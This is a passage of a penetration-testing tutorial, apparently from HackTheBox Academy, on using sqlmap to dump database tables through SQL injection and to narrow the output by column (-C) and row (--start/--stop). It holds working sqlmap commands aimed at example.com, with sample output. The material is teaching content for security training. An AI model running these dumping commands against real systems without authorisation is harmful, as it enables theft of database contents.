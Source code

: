 The console output shows that the table is dumped in formatted CSV format to a local file, `users.csv`.

Tip: Apart from default CSV, we can specify the output format with the option `--dump-format` to HTML or SQLite, so that we can later further investigate the DB in an SQLite environment.

![sqlite](https://academy.hackthebox.com/storage/modules/58/pVBXxRz.png)

---

## Table/Row Enumeration

When dealing with large tables with many columns and/or rows, we can specify the columns (e.g., only `name` and `surname` columns) with the `-C` option, as follows:

```shell-session
smoothment@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb -C name,surname

...SNIP...
Database: testdb

Table: users
[4 entries]
+--------+------------+
| name   | surname    |
+--------+------------+
| luther | blisset    |
| fluffy | bunny      |
| wu     | ming       |
| NULL   | nameisnull |
+--------+------------+
```

To narrow down the rows based on their ordinal number(s) inside the table, we can specify the rows with the `--start` and `--stop` options (e.g., start from 2nd up to 3rd entry), as follows:

```shell-session
smoothment@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --start=2 --stop=3

...SNIP...
Database: testdb

Table: users
[2 entries]
+----+--------+---------+
| id | name   | surname |
+----+--------+---------+
| 2  | fluffy | bunny   |
| 3  | wu     | ming    |
+----+--------+---------+
```

---